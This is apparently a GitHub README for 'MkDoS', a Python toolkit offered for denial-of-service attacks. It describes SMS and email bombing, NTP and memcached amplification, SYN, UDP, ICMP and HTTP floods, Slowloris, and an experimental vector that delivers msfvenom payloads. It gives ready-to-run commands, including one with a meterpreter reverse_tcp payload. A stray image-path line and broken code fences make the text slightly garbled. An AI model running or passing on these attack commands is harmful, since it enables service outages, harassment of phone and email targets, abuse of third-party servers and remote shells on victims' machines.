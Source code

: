 # MkDoS
### Modern DoS toolkit with Python3

### vectors:
| vector               |   Target   | Description |
| ---------------------| -----------|-------------|
| SMS                  | PHONE                        | Sends a massive amount of SMS messages and calls to a single target |
| EMAIL                | EMAIL                        | Sends a massive amount of Email messages to a target |
| NTP                  | IP:PORT                      | NTP amplification is a type of Distributed Denial of Service (DDoS) attack in which the attacker exploits publically-accessible Network Time Protocol (NTP) servers to overwhelm the targeted with User Datagram Protocol (UDP) traffic. |
| SYN                  | IP:PORT                      | A SYN flood (half-open attack) is a type of denial-of-service (DDoS) attack which aims to make a server unavailable to legitimate traffic by consuming all available server resources. |
| UDP                  | IP:PORT                      | A UDP flood is a type of denial-of-service attack in which a large number of User Datagram Protocol (UDP) packets are sent to a targeted server with the aim of overwhelming that device’s ability to process and respond. The firewall protecting the targeted server can also become exhausted as a result of UDP flooding, resulting in a denial-of-service to legitimate traffic. |
| POD (Ping of Death)  | IP                           | Ping of Death (a.k.a. PoD) is a type of Denial of Service (DoS) attack in which an attacker attempts to crash, destabilize, or freeze the targeted computer or service by sending malformed or oversized packets using a simple ping command. |
| ICMP                 | IP:PORT                      | Ping flood, also known as ICMP flood, is a common Denial of Service (DoS) attack in which an attacker takes down a victim's computer by overwhelming it with ICMP echo requests, also known as pings. |
| HTTP                 | URL                          | HTTP Flood is a type of Distributed Denial of Service (DDoS) attack in which the attacker manipulates HTTP and POST unwanted requests in order to attack a web server or application. These attacks often use interconnected computers that have been taken over with the aid of malware such as Trojan Horses. |
| Slowloris            | IP:PORT                      | Slowloris is a denial-of-service attack program which allows an attacker to overwhelm a targeted server by opening and maintaining many simultaneous HTTP connections between the attacker and the target. |
| Memcached            | IP:PORT                      | A memcached distributed denial-of-service (DDoS) attack is a type of cyber attack in which an attacker attempts to overload a targeted victim with internet traffic. The attacker spoofs requests to a vulnerable UDP memcached* server, which then floods a targeted victim with internet traffic, potentially overwhelming the victim’s resources. While the target’s internet infrastructure is overloaded, new requests cannot be processed and regular traffic is unable to access the internet resource, resulting in denial-of-service. |
| Envenom (in progress)| IP:PORT:LHOST:LPORT:PAYLOAD  | EnVenom is a utility that utilizes the msfvenom utility created by Metasploit's rapid7. It is a DoS attack that uses msfvenom to generate a payload, then encrypts it across the TCP protocol with a tag that decrypts it once it reaches its intended target. Once decrypted, it can do numerous things, from wiping data to opening a reverse TCP shell. The sheer number of these payloads should yield an exhaustion of resources. It is still experimental, though. |

sudo pip install scapy
```
```
python3 mkdos.py --help
```

### USAGE:
```
usage: mkdos.py [-h] [--target <IP:PORT, URL, PHONE>]
                 [--vector <SMS/EMAIL/NTP/UDP/SYN/ICMP/POD/SLOWLORIS/MEMCACHED/HTTP>]
                 [--time <time>] [--threads <threads>]

Denial-of-Service Attack ToolKit

optional arguments:
  -h, --help            show this help message and exit
  --target <IP:PORT, URL, PHONE>
                        Target IP:port, url or phone
  --vector <SMS/EMAIL/NTP/UDP/SYN/ICMP/POD/SLOWLORIS/MEMCACHED/HTTP>
                        Attack vector
  --time <time>         time in secounds
  --threads <threads>   threads count (1-200)
  --payload <payload>   Payload for msfvenom
  --lhost <lhost>       Local host for msfvenom payload
  --lport <lport>       Local port for msfvenom payload
  --num_packets <num_packets>   Number of packets to send
  --burst_interval <burst_interval>   Interval between packets in seconds

For Example:
$ sudo python3 mkdos.py --vector MEMCACHED --time 60 --threads 100 --target 127.0.0.1:80
$ sudo python3 mkdos.py --vector SMS --time 30 --threads 50 --target +66123456789
$ sudo python3 mkdos.py --vector ENVENOM --time 30 --threads 50 --target 127.0.0.1:80 --payload windows/x64/meterpreter/reverse_tcp --lhost 127.0.0.1 --lport 4444
```
